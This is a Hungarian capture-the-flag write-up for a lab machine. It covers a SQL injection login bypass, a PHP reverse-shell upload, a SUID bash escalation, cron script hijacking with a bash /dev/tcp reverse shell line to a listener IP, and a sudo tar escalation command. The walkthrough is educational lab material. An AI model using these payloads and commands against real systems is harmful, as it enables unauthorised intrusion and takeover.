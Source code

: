 - Név:  Hms?: 1
- Megjelenés dátuma: 2021.07.28.
- Szerző: niveK

Leírás: A gép egy egyszerű SQL Injectionre példa, ami könnyen elvégezhető, viszont könnyen kivédhető is lehetne. A gépen a root jogig kell eljutni és egy könnyű szintre sorolnám. A következőkben ennek a folyamatnak a dokumentálása olvasható.

Elsőnek beazonosítom a célgépet a netdiscover paranccsal.


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/1b26ca73-ddbf-4d3b-9493-5d7495b76dca">
</p>

Miután az Nmapel megvizsgáltam a portokat 3 nyitottat találtam. Egy FTP (21), egy SSH(22) és egy 7080-as portot. Az FTP engedélyezi az anonymous belépést, viszont ott nem találunk semmit se.


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/9e39c6aa-6e98-4b2f-9525-701426269718">
</p>

Ha megnézzük a http oldalt a 7080-as porton akkor a következő login panelt kapjuk.

<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/221bfd30-7958-4fcf-a9ad-47a874264cc6">
</p>

Egy egyszerű login panel, amit a burpsuittal könnyedén ellenőrizhetünk, hogy sérülékeny-e az alapvető SQL injectionökre. Ezt a burpsuit intruder funkciójával fogom tesztelni. 


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/e7ac2d56-552f-4140-999b-29617ac3c5ec">
</p>

Itt a pirossal aláhúzott részeket fogom tesztelni a kaliban összegyűjtött alapszintű SQL injectionre.


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/557a036f-016b-40a2-a1cc-08c6f11d42da">
</p>

Ki is dobott pár eredményt. Például: 
' or 1=1 or ''=' ____ ' or 1=1 or ''=' kombináció. Ha ezt beírjuk a login panelbe, nem fog beengedni, mivel egy e-mail típust vár felhasználónévnek. Ezt könnyedén átugorhatjuk, ha az inspect elementbe, kitöröljük a „ type=”e-maill” „ feltételt.


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/743f1079-36cc-4261-be26-68654539c21d">
</p>


Sikeresen bejutottunk az admin panelba.

<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/e469521d-03ef-49d3-af1e-51f07b9246c7">
</p>


Ha megnézzük az oldal forráskódját és kicsit lentebb tekerünk láthatjuk, hogy megjegyzésben találunk egy setting.php oldalt. Itt a jobb alsó sarokban feltűnhet, hogy engedélyezett a file feltöltés. Ezt kihasználva egy reverse shellel könnyedén be tudunk jutni a gépbe. 


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/64860bf1-40f4-4a93-8676-ee4e6e8f3ee5">
</p>


Én ezt a pentestmonkey rev shelljét fogom használni.

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Ha feltöltöttük akkor a http://ip-cim:7080/uploadIamge linket meglátogatva megtalálhatjuk a shellt. Ehhez egyben párosítunk egy listenert.


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/14a7ec53-d91d-4fe0-b52d-370067e82cf6">
</p>


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/16cb0382-eb1e-42d6-ac2c-6316d4e08369">
</p>


Két felhasználó is van a gépen. Eren és niveK. Ezután megtaláltam, hogy a bash egy SUID binary. Ezt a GTFOBins oldalon található kóddal könnyedén ki is használhatom.

https://gtfobins.github.io/gtfobins/bash/


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/4a0eb2aa-8090-458c-bbd2-7af198b5a890">
</p>


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/068f6546-a438-4b86-b722-a0551450a6d9">
</p>


Ezt követően az etc mappában találtam egy crontab filet. Egy 5 percenként futó programot találtam, amit az eren user birtokolt. Ezt könnyedén át tudjuk írni.


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/ec5cb8d3-2a4c-4e50-8f4f-bb5dde7b739d">
</p>


Elnavigáltam az adott mappába, és az adott script volt.


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/7fbc86e5-d8a5-4e51-8485-46ff3c292a36">
</p>


Ezt egy kicsit átírva, könnyedén szerezhettünk egy shellt, hogy ténylegesen mi legyünk az eren user.


- #!/bin/bash
- bash -i >& /dev/tcp/192.168.36.6/4443 0>&1
- BACKUP_DIR="/home/eren/backups" 

Ezt a sort beírva a backup.sh fileba, majd nyitva egy másik listenert a 4443-as porton, kapunk is egy shellt, az eren felhasználóval. Ezután a sudo –l paranccsal meg is tudhatjuk, hogy van amit rootként futtathatunk.


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/ff4c7bde-06f8-4f53-8df0-2bbf9a4d0bf0">
</p>

Ezt szokásos módon a https://gtfobins.github.io/ oldalon leírtak alapján exploitolhatjuk.

**sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh**


<p align="center">
  <img src="https://github.com/prox11/CTF-Writeups/assets/148764185/2641db6c-652f-4542-a5c0-49c31a73bf37">
</p>

